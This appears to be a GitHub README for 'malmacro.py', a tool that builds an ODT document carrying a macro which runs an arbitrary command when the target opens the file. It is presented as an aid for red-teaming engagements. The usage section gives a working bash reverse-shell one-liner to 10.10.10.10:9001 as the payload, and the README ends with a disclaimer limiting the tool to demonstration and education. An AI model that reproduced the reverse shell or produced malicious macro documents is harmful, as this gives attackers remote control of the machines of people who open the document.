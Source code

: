 ## Malicious VBA Macro Generator
One general way to gain a foothold on a user's machine in a red-teaming engagement is the use of delivering a document that has a macro enabled that executes a command, which is triggered upon the user opening the document. This program generates one such document in ODT format (I may add Word, Excel and ODS documents later).

Note: For this to work, macros must be enabled on the target's machine.

```bash
$ python malmacro.py
Usage: malmacro.py <code_to_execute>

$ python malmacro.py "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"

$ ls
macro.odt  malmacro.odt  malmacro.py
```

## Disclaimer
This project is made for demonstrative and educational purposes only. I'm not liable for how you use it.
